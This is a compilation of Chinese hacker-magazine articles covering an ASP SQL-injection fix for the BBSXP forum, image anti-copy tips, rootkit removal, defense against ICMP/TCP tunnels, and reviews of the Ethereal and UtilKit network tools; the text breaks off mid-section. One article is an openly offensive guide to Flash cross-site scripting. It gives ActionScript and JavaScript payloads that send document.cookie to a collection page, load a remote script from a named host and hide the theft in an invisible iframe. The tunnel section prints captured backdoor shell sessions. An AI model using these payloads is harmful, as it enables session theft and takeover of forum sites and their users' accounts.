前面说到的那些潜在有问题的子过程，有一个比较简单而且有效的方法：对 request 过来而且作为了 SQL 语句构造部分的变量，统统加上过滤单引号的语句，例如在 top 子过程中：

```asp
if Request.Cookies("username")<>empty then
```

简单地修改为：

```asp
if Request.Cookies("username")<>empty then
sql="select * from [user] where [name]='"&replace(Request.Cookies("username"),"'","''")&"'"
```

其他相应的地方也可以同理修改。

usertop.asp 中 Order 出的问题，改起来稍微有点麻烦，因为总觉得直接从代码意义来看，怎么过滤都不合理。好在这个地方要利用起来很有些难度，就用经验来保证一下吧，第五行中过滤掉空格：

```asp
order=HTMLEncode(Request("order"))
```

改为：

```asp
order=replace(HTMLEncode(Request("order"))," ","")
```

这样子的过滤对付一般的倒是没问题了，但是用作分割符号的还可以是 "\t"、"\r"、"\n" 等，如果要完全准确，挨着挨着过滤也不是不可以，就怕挂一漏万，有一个没有想到的地方都和没有过滤是一样的。

或者我们可以换一个思路，这里要求的是表名，而表名长度是很有限的，姑且就取前 20 个字符。这样子对于防范是够的，攻击起来就不可能了。

```asp
order=left(HTMLEncode(Request("order")), 20)
```

这个做法有点毒，基本上能够保证安全了。但如果这样写的话还是有点投机取巧的味道，严谨的人来看，多半觉得有些不爽。堵上这种入口的最好方法是从逻辑上断绝注入者的念头：这个 order 的集合是严格表名的集合，而表名的个数是有限的，就枚举一番吧。

```asp
if order<>"experience" and order<>"regtime" and
order<>"posttopic" and order<>"postrevert" and
order<>"money" and order<>"landtime" then
    order="experience"
```

很长吧？一共有 43 项，你要是愿意的，都加上去好了。不过提醒一下，有几个不能加，比如 userpass，至于为什么，我想聪明的你应该能够猜得出来的。

文中还有提到 setup.asp 中一些子过程可能潜在有问题，因为还没有看到具体出现的时候，姑且先放过它们。另外提到的那个不用合法用户名就能察看所有用户的缺陷，因为不知道是不是故意设置成为如此的，所以也就不动它了。BBSXP 标称自己是最快的，看来不得不承认——为了快速，连基本的安全都不要了，实在是佩服。

最后似乎还说到 iecv 中修改 Cookie 键值中 "=" 没有正确处理的缺陷，我想你可以写一封信给 iecv 的作者，这个漏洞就不是我们管辖的范围了，何况 iecv 给的主页我还根本打不开……

脚本小子：我一直在追踪 Flash 跨站攻击，因为这是最近的热点嘛！热爱脚本攻击的脚本小子当然不能放过啦，这不，我就约来了一个作者，为我们广大黑友讲述如何防止 Flash 跨站攻击弹出 IE 窗口，因为在实施 Flash 跨站攻击的时候，如果设计得不好，弹出了 IE 窗口，就会引起怀疑，从而失败！如果你也正为这个问题而头疼的话，不妨来阅读本文——

难度等级：低

前置知识：Flash 脚本语言，JavaScript 语言


### 也说说给脚本攻站的隐藏

——如何防止 Flash 跨站攻击弹出 IE 窗口

icyfox\lovelace / 冰狐浪子

前些天一直忙着学习 Win32 汇编，一直懒得写文章，这些天来好像 Flash 跨站攻击闹得挺凶的，但在实施 Flash 跨站攻击时的那个弹出的 IE 窗口很容易引起别人的怀疑，从而使得 Flash 跨站攻击失败，这的确让人多少有点头疼，大家是不是也一直在寻找实施 Flash 跨站攻击时不弹出 IE 窗口的方法来隐藏自己的攻击行为呢？下面大家和我一起来解决这个不大不小的问题，让 Flash 跨站攻击更完美吧！

一般来说，大家在进行 Flash 跨站攻击时都是自己做一个 Flash 动画，并在第 1 帧中加入用于跳转到其他 URL 的 ActionScript 脚本函数，如下：

```javascript
getURL("JavaScript:window.open('http://用于收集Cookie的网页地址?'+document.cookie)","_self")
```

然后把这个 Flash 动画置于论坛中的签名、帖子或短信消息中，用来获得管理员或用户的 Cookie，从而得到管理权限，进一步伺机控制整个站点，最终达到自己的目的。我们可以看到在整个跨站攻击中最重要的就是这个 ActionScript 脚本啦！也就是这个脚本中用到的代码打开了一个我们又爱又恨的窗口，所以我们也只能从改造这个脚本代码来实现隐藏或者是去掉弹出的 IE 窗口，除此外别无它法！

我们先分析一下上面的 ActionScript 脚本，它使用 ActionScript 脚本函数“getURL”跳转到一个使用 JavaScript 协议的 URL（JavaScript 协议后面就是我们非常熟悉的 JavaScript 脚本代码），在 JavaScript 中使用 document.cookie 得到 Cookie，并把 Cookie 和一个用于收集 Cookie 的网页地址连接成一个 http 协议的 URL 地址，最后使用 window.open 打开合成的 URL 地址，从而把 Cookie 用 GET 方式发送到用于收集 Cookie 的网页，并记录下来。

通过上面的分析，我们进一步了解那个弹出的 IE 窗口是由于 JavaScript 协议中的代码 window.open 所生成的，相信大家都知道 window.open 的第三个参数用来指定打开的窗口的名字，其通用名称有 “_media（IE6.0 在浏览器左边的媒体面板内打开）”、“_blank（在新窗口中打开）”、“_parent（在当前框架的父框架内打开。假如当前框架无父框架，此参数值等同于 _self）”、“_search（IE5.0 在浏览器左边的搜索面板内打开）”、“_self（在当前窗口中打开，覆盖当前文档）”、“_top（在所有框架之外的最顶层窗口中打开。假如当前窗口无框架结构，此参数值等同于 _self）” 等几种，如果我们以 “_search” 来打开窗口，不是就没有了弹出的 IE 窗口了吗？ActionScript 脚本改为：

```javascript
getURL("JavaScript:window.open('http://用于收集Cookie的网页地址?'+document.cookie,'_search')","_self")
```

当然，这样做会打开搜索面板，也会引起怀疑，但却可以躲过那些关闭弹出窗口软件的追杀！姑且也算一种方法吧！

如果仅仅是上面所说的，相信不少读者要把我……

看到这里聪明的你是不是想到了点解决的思路？对！既然支持 JavaScript 啦，还有啥东东会不能解决呢？JavaScript 真的是好处多多呀！

如果你曾看了我的那篇“打造一个完美的 IE 网页木马”的文章，并且对其中的代码深深理解的话，可以自己先去想像一下啦！呵呵……

在那篇文章中有下面这样一段代码：

```javascript
jsurl="http://www.godog.y365.com/wodemuma/icyfox.js".replace(/\//g,'\\/');
window.open("file:javascript:document.all.tags('SCRIPT')[0].src='"+jsurl+"';eval();","icyfoxlovelace");
```

使用了 JavaScript 协议把自己网站上的一个 js 代码文件插入到了本地文件中，可以用它把一个 js 代码文件插入到进行跨站攻击的论坛网页中，相应的 ActionScript 脚本改为：

```javascript
getURL("JavaScript:document.all.tags('SCRIPT')[0].src='http:\/\/www.godog.y365.com\/wodemuma\/icyfox.js';eval();","_self");
```

其中 icyfox.js 的内容如下：

```javascript
cookieurl="http://用于收集 Cookie 的网页地址?cookie="+escape(document.cookie);
/* 这里使用了 escape() 对 cookie 编码，用来防止 cookie 中的一些特殊字符 */

document.body.insertAdjacentHTML('beforeEnd', '<iframe WIDTH=0px HEIGHT=0px style="display:none;" src="'+cookieurl+'"></iframe>');
/* 这里使用了 insertAdjacentHTML 在 body 的最后插入了一个不可见的框架 */
```

这里主要是利用了可以在一个网页中引入不同域中的 JavaScript 代码文档，而且所引入的 JavaScript 代码文档会和本网页融为一体的特点！

至此，Flash 跨站攻击弹出 IE 窗口的问题算是解决啦！当然如果你愿意，在 icyfox.js 中加个网页木马之类的我也无话可说！

最后再顺便说一句，它同样可以用于在其他类型的跨站脚本攻击中隐藏弹出的 IE 窗口！比起利用 Microsoft.XMLHTTP 控件发送 COOKIE 要随意得多，因为它不会像 Microsoft.XMLHTTP 控件那样只能发给当前服务器，还有焦点上 czy 的“利用 Microsoft.XMLHTTP 控件发送 COOKIE”一文中提到这样一句话：

> “以前我想了一个在网页中用 insertAdjacentHTML 方法来注入 HTML 语句的办法，勉强可以做到发送 Cookie 不出现 IE 窗口，但是在实际使用中有时会遇到 IE 出错。”

据我分析，这是因为在 Cookie 中存在一些特殊字符，而 czy 没有正确处理或是编码，才会在实际使用中有时会遇到 IE 出错，所以上面代码我用了 escape() 对 Cookie 编码，在接收到 Cookie 后请注意用 unescape() 来解码！

脚本小子：还记得前段时间网上盛行的各种 PS 的“小胖”的照片吗？一时间，网上肖像权的问题成为热点的话题。谁也不希望自己的作品或照片在网上被盗用吧！但随着互联网的普及和发展，网民计算机水平的提高，web 网页中的图片被盗用的现象越来越猖獗。在下面的文章中，我们就如何保护 Web 页面中有价值的图片（照片）展开讨论，希望业内人士都来关注此事，让“小胖”现象从此绝迹！

### 让“小胖”远离我们的图片

#### 背景

上网时，我们常能在网页中看到一些或美轮美奂，或创意无限，或幽默风趣的图片，很容易另存下来据为己有，殊不知，这不仅在无形中侵犯了图片制作人员和网站的知识产权和利益，还涉及到图片中人物的肖像权。谁也不希望自己的照片被篡改后用于其他地方吧！那么，如何保护 web 页面中的有价值的图片不被窃取和拷贝呢？本文提供了一些简单易行的防范方法。虽然窃取和拷贝图片很难从根本上彻底杜绝，但通过以下的措施，我们可以加大窃取和拷贝图片的难度，让窃取者望而却步。

#### 拷贝图片

拷贝 web 页面中的图片，常见的方法有 4 种。

- 使用鼠标右键菜单中的“图片另存为”功能。
- 使用搜索引擎，搜索需要的图片。
- 从浏览器的缓存中找到浏览过的图片。
- 使用截屏工具或 Windows 操作系统的 PrintScreen 功能。其中，截屏是很难禁止掉的，并且需要昂贵的加密软件如 Alchemedia's Mirage Enterprise（www.alchemedia.com）或 ArtistScope's CopySafe（http://artistscope.com/copysafe）。

#### 防范方法

首先，看几个简单的方法。可以把一幅图片切割成多个部分，目前的 Photoshop 和 Fireworks 都支持这种功能。这样可以掩饰窃取者耳目，防范计算机水平比较菜的浏览者。可以使用 Flash、Shockwave 或 Java applet 显示图片，这样可以阻止用户通过右键菜单拷贝图片。例如，ImageSafe 软件（www.cellspark.com/imagesafe.html）可以把 Java applet 中的图片压缩，防止它们被 cache 或拷贝。

其次，写 JavaScript。笔者认为，尽量不要使鼠标右键失效，因为这也使得其他右键菜单的功能失效了，并不是个好方法。一种比较好的方法是编写 JavaScript，使鼠标放在图片上时显示其更替的图片，并产生 rollover。典型的 rollover 可显示图片的版权信息。当访问者企图使用右键菜单“图片另存为”窃取图片时，他实际上保存的是更替后的图片。

下面一段 JavaScript 代码和 HTML 代码配合，可以实现当鼠标放到一张图片上时，显示其更替图片（Dreamweaver 中也有此功能）。

在 HTML 的 head 中，加上这段代码：

```html
<script language="JavaScript" type="text/JavaScript">
function MM_swapImage() { //v3.0
  var i,j=0,x,a=MM_swapImage.arguments;
  document.MM_sr=new Array;
  for(i=0;i<(a.length-2);i+=3)
    if ((x=MM_findObj(a[i]))!=null)
    {
      document.MM_sr[j++]=x;
      if(!x.oSrc) x.oSrc=x.src;
      x.src=a[i+2];
    }
}

function MM_swapImgRestore() { //v3.0
  var i,x,a=document.MM_sr;
  for(i=0;a&&i<a.length&&(x=a[i])&&x.oSrc;i++)
    x.src=x.oSrc;
}
</script>
```

在 HTML 的 body 中，加上代码：

```html
<a href="#" onMouseOut="MM_swapImgRestore()"
   onMouseOver="MM_swapImage('Image11','','images/wsc-1.gif',1)">

</a>
```

下面 HTML 代码可以实现当鼠标放到一张图片上时，弹出提示框：

```html
<a href="javascript:void(0)" onMouseover="alert('对不起，此图片不能下载！')">
  
</a>
```

再次，充分利用 HTML。你可以把图片放到一个透明的 GIF 图片之下，这个 GIF 图片通过层（或嵌入的样式单）来定位。当访问者用鼠标右键另存图片时，他保存的是那个透明的 GIF 图片。下面是一个层的例子。真正有价值的图片在 img 层，而 bufimg 层放置的是一个透明的 GIF 图片。

```html
<DIV id="bufimg" style="HEIGHT: 100%; POSITION: relative; TOP: 0px; VISIBILITY: visible; WIDTH: 100%; Z-INDEX: 1">
  <center></center>
</DIV>
<DIV id="img" style="HEIGHT: 100%; POSITION: relative; TOP: 0px; VISIBILITY: visible; WIDTH: 100%; Z-INDEX: 1">
  <center></center>
</DIV>
```

HTML meta tags 可以防止浏览者和搜索引擎从站点的 cache 中或 archive 文件中搜索到图片。

```html
<meta name="robots" content="noarchive, noindex, nofollow, noimageindex, noimageclick">
```

对于支持 HTTP 1.1 的浏览器，这样可以防止 cache：

```html
<meta http-equiv="Pragma" content="no-cache">
<meta http-equiv="expires" content="0">
<meta http-equiv="cache-control" content="no-store">
```

不过这并不是无懈可击。因为浏览器可以 cache 标记 no-cache 的请求。如果图片在浏览器的 cache 中，图片窃取者还是可以发现它。最后，使用水印。可以把有价值的图片标识成你自己的，窃取者即使拷贝了，也用不上或者要费很大功夫才能用上。例如 Digimarc Corp.（www.digimarc.com）提供一套解决方案，可以把图片加上不可见的水印。我们可以跟踪这种水印在 Web 上发现被窃取的图片，也可以在图片上使用可见的水印，这样图片更不容易被窃取，但 Web 站点上的美观会受到一些影响。

以上是目前常用的几种技术。正如没有万无一失的方法可以防止窃贼进入我们的房子一样，也没有绝对完美的方案能保护 Web 页面上的图片。但我们可以锁上所有的门和窗，提高安全系数。同样，我们也可以尽可能多地采取防范措施，防止图片被窃取。

蝴蝶：看了《Windows 2003 下 Rootkit 应用实例》一文后，大家现在是不是最关心如何清除文中的 Rootkit？以及如何检测其他 Rootkit？清除 Rootkit 可不是什么容易的事，就我个人看来，你首先应该了解系统的自动选项，为什么呢？因为 Rootkit 也是以 exe 形式出现的，它要想隐藏预定义的内容，就必须使其可以自启动，这就是突破口；对于以 DLL 文件形式插入到系统进程当中的 Rootkit（AFX Rootkit 就是此类），大家可以参考本文作者的另外一篇文章《握着你的手清除 DLL 后门》。

### Rootkit 的清除与检测

#### AFX Rootkit 手工清除

该工具的工作原理已经在《Windows 2003 下 Rootkit 应用实例》一文说过了，所以不再重复，直接给出一种最实用的清除方法，相信也是大多数朋友能想到的。

- 1. 首先找一个 Windows 2003 系统，然后把 explorer.exe 文件复制到本地。
- 2. 进入你的另一个系统，本人使用的是 FreeBSD，具体过程如下：

```bash
# mount_ntfs /dev/ad0s5 /mnt    // 挂载 C 盘
# cp /Windows/Explorer.exe Explorer.exe.bak
// 进入 mnt 目录，备份 Explorer.exe 文件
# rm -r Explorer.exe    // 删除 Explorer.exe 文件
# rm -r /Windows/explorer.dll
// 删除后门 DLL 文件
# rm -r /Windows/Rootkit.exe    // 删除由 Rootkit.exe 生成的后门文件，本文中为 Rootkit.exe
# cp Explorer.exe /Windows/Explorer.exe
// 复制 Explorer.exe 文件到 Windows 目录
# umount /mnt    // 卸载 C 盘
```

- 3. 重新启动系统，进入 2003，删除 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 下的自启动项，保存、退出，重新启动之后后门就清除掉了。

如果你是 Windows 系统，相信这点问题难不倒你。

#### 检测其他 Rootkit

如果通过手工检测，那真是太难了，所以这里推荐一个 Rootkit 检测工具——Rootkit Detector，它通过内置的 MD5 数据库，来比较所检测 Windows 2000/XP/2003 系统全部服务和进程的 MD5 校验值，这样就可以检测出系统下的 Rootkit，比如 Hacker Defender 系列版本，藏得再深也无可遁形了。作为网络管理员来说，实是一把不可多得的利器。

在使用之前，我们还是看看它的帮助信息吧。

```text
Rootkit Detector Professional
2004 v0.62

Rootkit Detector Professional 2004
Programmed by Andres Tarasco Acuna
Copyright (c) 2004 - 3wdesign Security
Url: http://www.3wdesign.es

Usage: C:\rkdetector.exe [-vm]
  -v  Shows Verbose Information.
  -m  Shows md5 checksum for filename
```

怎么样？很简单吧！rkdetector.exe -v 显示该工具的版本信息，rkdetector.exe -m 显示某个文件的 MD5 值，例如 explorer.exe 的 md5sum：3c8f7d955a1657c941129f6e0ec8b620。直接运行 rkdetector.exe 是对当前的系统进行检测，它会进行一系列的初始化、检测工作，最后用红颜色的字体显示出可疑的模块，例如：

```text
Gathering Service list Information... (Found: 250 services)
Gathering process List Information... (Found: 29 process)
Searching for Hidden process Handles. (Found: 0 Hidden Process)
Checking Visible Process...
...
Searching for Rootkit Modules...
SUSPICIOUS MODULE!! c:\windows\system32\explorer.dll
```

凭借这个工具，你就可以对其进行细致的“扫描”了，为检测 Rootkit 提供了强大的支持。对于 UNIX 系统，我想 Chkrootkit 应该是其中的佼佼者，黑防以前刊登过它的使用方法，不太了解的读者可以找来看看。

呵呵，Rootkit Detector 检测出了 explorer.dll 存在问题，而这正是我们的核心文件啊！

> 编后：其实 Rootkit 并不是多么可怕，只是了解的人比较少。正如前面所说，对于 Windows 系统，一定要抓住自启动项，这是 Rootkit 不可避免要接触的，这里也是我们的突破口。本文写得比较浅，旨在抛砖引玉，国内外的不少人都写过技术含量比较高的 Rootkit 的相关文章，有兴趣的朋友可以找来参考一下。/DD

蝴蝶：看了本期攻册的《突破防火墙的利器——隧道攻击》之后，是不是觉得隧道很有意思？其实这都是当初在设计 TCP/IP 时没有考虑到的缺陷。下面我们就一起来看看如何对隧道攻击进行有效的防御，希望能对大家有所启发！

- 难度等级：中
- 前置知识：网络协议基础知识

### 突破防火墙的利器——隧道防御

文／dahubaobao

#### ICMP

对于利用 ICMP 协议实现的隧道，我们无非是要把所有的 ICMP TYPE 禁止。针对这一点来说，普通软件防火墙的默认安全级别都无能为力，原因在攻击篇中已经说过了，必须把安全级别修改到“高级”方能阻止 ICMP 协议，这样利用 ICMP 协议实现的隧道就无用武之地了。同理，把所有的 ICMP TYPE 禁止了，Ping 这个工具自然就“失效”了，因为你已经收不到任何错误报文（网络不可达、主机不可达等等）。而且基于 ICMP 协议的 Tracert 工具也会失效，何去何从，就由你自己选择吧。下面给出 ICMP TYPE 的详细列表，方便大家参考。

| Type 值 | ICMP 信息说明 |
|---|---|
| 0 | Echo Reply（回声答复） |
| 3 | Destination Unreachable（目的地无法到达） |
| 4 | Source Quench（来源抑制） |
| 5 | Redirect（更改方向） |
| 8 | Echo Request（回声请求） |
| 11 | Time Exceeded（超时传输） |
| 12 | Parameter Problem Message（参数问题信息） |
| 13 | Timestamp Request（时间标记请求） |
| 14 | Timestamp Reply（时间标记答复） |
| 15 | Information Request（信息请求） |
| 16 | Information Reply（信息答复） |
| 17 | Address Mask Request（地址屏蔽请求） |
| 18 | Address Mask Reply（地址屏蔽答复） |

#### ICMP：

```text
ICMP 192.168.0.30->192.168.0.1 Bytes=33
TTL=128 Type: 15,16 ID=284 SEQ=54321
I will open Upkiller's back door.  // 本地→目标，请求打开后门程序，TYPE 15、16

ICMP 192.168.0.1->192.168.0.30 Bytes=21
TTL=128 Type: 8,0 ID=728 SEQ=54321
OK, Back door is Open.  // 目标→本地，成功打开，TYPE 8、0

ICMP 192.168.0.1->192.168.0.30 Bytes=46
TTL=128 Type: 8,0 ID=728 SEQ=54321
Welcome to Upkiller's RootKit Server 0.55 :)  // 显示欢迎消息，TYPE 8、0

ICMP 192.168.0.1->192.168.0.30 Bytes=9
TTL=128 Type: 8,0 ID=728 SEQ=54321
Command:>  // 成功连接，返回提示符，TYPE 8、0

ICMP 192.168.0.30->192.168.0.1 Bytes=6
TTL=128 Type: 15,16 ID=284 SEQ=54321
Shell  // 本地→目标，请求 Shell 命令，TYPE 15、16

ICMP 192.168.0.1->192.168.0.30 Bytes=104
TTL=128 Type: 8,0 ID=728 SEQ=54321
Microsoft Windows 2000 [Version 5.00.2195]
(C) 1985-2000 Microsoft Corp.
C:\WINNT\system32>  // 目标→本地，Shell 执行成功，TYPE 8、0

ICMP 192.168.0.30->192.168.0.1 Bytes=5
TTL=128 Type: 15,16 ID=284 SEQ=54321
Exit  // 本地→目标，退出 Shell 会话，TYPE 15、16

ICMP 192.168.0.1->192.168.0.30 Bytes=42
TTL=128 Type: 8,0 ID=728 SEQ=54321
Exit Upkiller's RootKit Success.GoodBye.  // 成功退出
```

> 注：省略了一些确认和欢迎信息

#### TCP、UDP

对于使用 TCP 协议和 UDP 协议实现隧道，确实没有一个行之有效的办法来防御。因为你只要提供服务，就必须会打开相应的端口，所以我们只有“被动”的方式来防御隧道攻击。首先，要确保服务器的安全，这是最起码的条件。因为要实现隧道，必须给目标种下服务端，如果你能保证服务器的安全，完全不给入侵者机会；再者，隧道是通过数据包实现的，所以我们可以通过嗅探（Sniffer）抓取数据包来发现蛛丝马迹，我想这也是防御隧道攻击最好的方法了。在 Windows 下可以使用 Win2000 自带的网络监视器（嗅探这么好的东西，微软怎么能不把它放在 Windows 里呢？）；在 UNIX 下比较流行的也就是 TCPDump 了，其使用方法网上已经很多了，这里就不再说了。下面以攻击篇中（UpKiller）的 ICMP 隧道和 TCP 隧道抓包为例进行分析，大家就可以很清楚地看到整个过程了。

#### TCP：

```text
TCP 192.168.0.30->192.168.0.1 Port: 445->1080
Bytes=41 TTL=128 Len=80 ----A--- UpKiller!
will open Upkiller's back door.
// 本地445->目标1080，标志位ACK，请求打开后门

TCP 192.168.0.1->192.168.0.30 Port: 1080->445
Bytes=29 TTL=128 Len=80 ---R---- UpKillerOK,
Back door is Open.
// 目标1080->本地445，标志位RST，成功打开

TCP 192.168.0.1->192.168.0.30 Port: 1080->445
Bytes=54 TTL=128 Len=80 ---R---- UpKillerWelcome to Upkiller's RootKit Server 0.55 :)
// 显示欢迎消息，标志位RST

TCP 192.168.0.1->192.168.0.30 Port: 1080->445
Bytes=17 TTL=128 Len=80 ---R---- UpKiller Command:>
// 成功连接，返回提示符，标志位RST

TCP 192.168.0.30->192.168.0.1 Port: 445->1080
Bytes=14 TTL=128 Len=80 ----A--- UpKiller shell
// 本地445->目标1080，标志位ACK，请求Shell命令

TCP 192.168.0.1->192.168.0.30 Port: 1080->445
Bytes=112 TTL=128 Len=80 ---R---- UpKillerMicrosoft Windows 2000 [Version 5.00.2195]
(C) ...... 1985-2000 Microsoft Corp. C:\WINNT\system32>
// 目标1080->本地445，标志位RST，Shell执行成功

TCP 192.168.0.30->192.168.0.1 Port: 445->1080
Bytes=13 TTL=128 Len=80 ----A--- UpKiller exit
// 本地445->目标1080，标志位ACK，退出Shell会话

......
......

TCP 192.168.0.1->192.168.0.30 Port: 1080->445
Bytes=50 TTL=128 Len=80 ---R---- UpKillerExit
Upkiller's RootKit Success.GoodBye.
// 成功退出，标志位RST
```

怎么样？看了上面的信息，是不是一切都很清楚了？现在，隧道工具无所遁形了吧？

> 最后的忠告：如果你是一个网络管理员，并且暂未配备硬件防火墙和网络入侵检测系统（NIDS）的话，建议最好配备上，因为它们的设计技术先进，并且特征库非常全面，可以很好地过滤数据包，是防范隧道攻击的一把尖刀。网络安全就是这样，攻与防永远是对立的，最后，别忘记我们黑客防线的口号：在攻与防的对立统一中寻求突破！

蝴蝶：网络协议分析工具很多，有硬件的，也有软件的。撇开硬件的不谈，光软件的就有好多，什么 LANManager 呀，什么 OptiView 呀，可是对于最广大的网管员来说，有没有既好用、又便宜的东西呢？经本小编在网上狂查一通，终于找到了网络协议分析好助手——Ethereal！它不仅有 Win32 平台下的版本，也有 Linux 平台下的版本；而且重要的是，它是免费的！下面就让我们来看看它究竟有何能耐吧！

- 难度等级：低
- 前置知识：TCP/IP 网络协议知识

### 网络协议分析好助手——Ethereal

文／图 李汉强

网络中有很多协议，它是一种特殊的软件，是计算机网络实现其功能的最基本机制。网络协议的本质是规则，即各种硬件和软件必须遵循的共同守则。网络协议并不是一套单独的软件，它融合于其他所有的软件系统中，因此可以说，协议在网络中无处不在。

网络协议遍及 OSI 通信模型的各个层次，从我们非常熟悉的 TCP/IP、HTTP、FTP 协议，到 OSPF、IGP 等协议，有上千种之多。对于普通用户而言，不需要关心太多的底层通信协议，只需要了解其通信原理即可。在实际管理中，底层通信协议一般会自动工作，不需要人工干预。但是对于第三层以上的协议，就经常需要人工干预了，例如我们日常接触到的 TCP/IP（传输控制协议和网际协议）、IGMP 网际成组多路广播协议（Internet Group Multicast Protocol）、Telnet 协议（Telnet Protocol）等等。对于网管来说，对网络的协议进行分析、排查是网络日常维护中很重要的一个步骤，因此，Ethereal 这个软件就成为了网络协议分析的“好助手”。

Ethereal 是一个为 Unix 和 Windows 操作系统而设的免费的网络协议分析器。它允许用户查看从活动网络或从磁盘上捕捉的文件，可以浏览被捕捉的数据，查看每一数据包的摘要或详细信息。Ethereal 0.9.13 修复了先前发现的大量安全问题，更带有一些新的和更新了的功能，如支持一个全系统颜色过滤文件；增加支持 GNU ADNS 库，ADNS 允许非同步 DNS 查询。“解码为……”的功能已经由“-d”旗标被添加到 ethereal 中，在协议树上显示出了 HTTP、FTP、POP、SMTP、IMAP 及 ACAP 请求和反应；同时增加了新协议 distcc、EtherNet/IP、MSRPC ATSVC、RTNET/TMDA 等。

#### Ethereal 的使用

- 1. 我们首先先在网站上下载 Ethereal，在 Google 上搜索一下就能找到很多的 Ethereal 下载网站，当然最好是选择最新的版本，整个软件大约是 13M，然后进行安装。

- 2. 安装结束后，我们还需下载安装一个“WinPcap”这个小软件，WinPcap 是用来抓包的，配合 Ethereal 对网络进行抓包，如果没有安装“WinPcap”，在运行 Ethereal 时会提示无法进行抓包。

- 3. 我们运行 Ethereal 来对网络协议进行分析，双击图标打开软件的主界面（图1）。进入“Edit->Preference”，可以看到很多设置以及支持的网络协议种类。一般情况下，我们不需要更改这些默认的设置，因为软件在安装的时候已经能对你的电脑系统分析出网络协议和网卡接口。

- 4. 选择“Capture->Start”，会弹出一个新的窗口（图2），这是建立一个新的抓包步骤。如果你的电脑有多张网卡，你可以在下拉菜单中选择对应的网卡进行抓包。其他的设置使用系统默认的，不需要改变，然后按“OK”。

- 5. 此时会出现另一个窗口（图3），这个时候我们的软件就通过网卡来对网络协议进行分析了。通过该窗口可以看到所用到的每个协议的数据包的流量大小百分比。

- 6. 一段时间（大约

蝴蝶：现在想要得到一款麻雀虽小但功能强大的软件可不容易了，更别说是一款集强大功能于一身的网管类软件了。虽然网上也有一些不错的网管软件，但动辄几十兆的庞大体积，可能连 U 盘都装不下。不过还好，我们终于有了 UtilKit，一张软盘都可以装下的功能强大的网管软件。废话不多说，一起看看吧。

**难度等级：高**  
**前置知识：网络基础管理知识，网管软件测试与监视网络**

### UtilKit：网管员的福音

UtilKit Net Tools，一款小巧的具有强大网络管理功能的绿色软件。它包含了 10 个全面而实用的万维网和企业网管理工具：UtilKit 高级路由器监视、UtilKit Cookie 管理器、UtilKit DLUL Meter Pro、UtilKit 下载流测试、UtilKit 网络浏览器、UtilKit 远程日志查看器、UtilKit 远程进程管理器、UtilKit 共享管理器、UtilKit 加速器、UtilKit 万维网分析器。

UtilKit 的安装非常方便，可以安装在网络上的任何一台主机上，该主机不论是服务器还是客户端都可以对整个网络进行管理维护。运行环境为 Windows 2000/XP，如果你正在运行的操作系统中包含有一个支持 Windows 的鼠标或其他设备，那么就已经具备了正常运行 UtilKit 网络工具的必要条件。

一个完整的 UtilKit 安装只需要 6M 的硬盘空间和 16M 的 RAM，安装时间不超过 3 分钟。这么小巧的网络工具究竟能实现哪些强大的网络管理功能呢？

#### 监视工具

UtilKit 包含两个监视工具，都可以对系统进行实时的监控，帮助网络管理者实时了解网络的运行和负载情况。

### 1、UtilKit 高级路由器监视

它是通过 SNMP 服务对网络中的路由器进行实时的监视，表现形式以波形图的方式显示（具体的显示线条和风格，还可以根据自己的个人习惯设置）。根据网络的上传／下载使用情况，管理控制本地主机和 SNMP 服务器的上传／下载的速度，使整个网络处在一个稳定运行环境中（图 1）。

通过监视器的实时显示，能让我们及时地了解网络中路由器的运行状况，实时了解网络的运行和负载情况。根据网络路由器的运行情况，采取最优的流量措施，避免网络出现故障，或在网络崩溃时能非常快速地做出反应，最大程度地减少网络出现问题而带来的损失。

### 2、UtilKit DLUL Meter Pro

该工具能自动检测主机的网卡连接，自动地识别网卡类型，实时地监视数据传输，查看通过所在网卡每天、每周、每月的上传和下载的具体情况，保存实时监控的数据文件，导入曾经保存的监控文件，以表格和波形图的形式进行分析比较（图 2）。

#### 网络工具

### 1、UtilKit 网络浏览器

UtilKit 网络浏览器能自动检测到网络的连接状况，显示所有网络内部的主机的共享情况，以树形结构显示每个工作组下面主机的共享文件，不需要进行网络的任何配置。浏览器的目的就是快速地浏览网络中存在的共享文件，及时发现那些文件是不能共享的，取消其共享属性。

对于一个企业，有些文件是非常重要的商业秘密；对于个人，有些文件是纯属个人隐私，要保证它们都很安全，而不被泄露，网管的任务艰巨啊（图 3）！

### 2、UtilKit 远程日志查看器

通过 UtilKit 远程事件查看器连接网络内的任何一台主机，可以查看该主机的日志和系统运行情况，及时发现可疑程序，在遭到恶意入侵时能够提供重要的依据（图 4）。

### 3、UtilKit 远程进程管理器

该管理器可以连接远程主机，操作远程主机正在运行的进程，关闭禁止使用或占用大量资源的进程，保障网络的正常运行。如果其他人正在运行不安全或占用大量资源的程序时，作为网络管理者，不需要直接与人面对面地碰撞（有可能产生不必要的火花），因为你在暗处，可以直接关闭它，安全的较量就这样安静地取得了胜利（图 5）。

### 4、UtilKit 共享管理器

UtilKit 共享管理器是一个专门开放和关闭共享的工具，可以连接远程主机，管理远程主机的共享文件或共享硬盘，从而有效地防止重要文件泄露（图 6）。

#### 其他工具

### 1、UtilKit Cookie 管理器

看着这个 Cookie 管理器是不是很面熟啊？其实 IECV 这个软件就是通过它来实现的。要说 Cookies 查看修改工具的鼻祖就算它了（图 7）。

### 2、UtilKit 万维网分析器

输入要分析网络的 HTTP 地址，系统将从输入的地址开始进行链接扫描与该地址链接的所有网络地址，可以在扫描之前设置扫描过程中的文字过滤、文字限制、文件类型过滤，设置代理服务器的地址、端口、用户名和密码。完成设置后单击 Start 按钮，UtilKit 就开始执行扫描操作，在出现弹出对话框 Done 时扫描结束。点左边的分析器，可以看到刚才在 Internet 上扫描到的链接地址、头标和 HTML 文件，是进行网站维护、网站设计优化的好助手（图 8）。

图 8 UtilKit 万维网分析器

#### 速度工具

该工具能有效地测试网络下载速度，便于网络管理员了解网络速度，并对其进行优化。

### 1、UtilKit 下载流测试

UtilKit 提供测试非洲、亚洲、欧洲、南美和北美的平均速度测试。可以查看你的网络在各地的带宽使用情况，这个工具对大多数跨国公司的网管会很有帮助（图 9）。

图 9 UtilKit 下载流测试

### 2、UtilKit 加速器

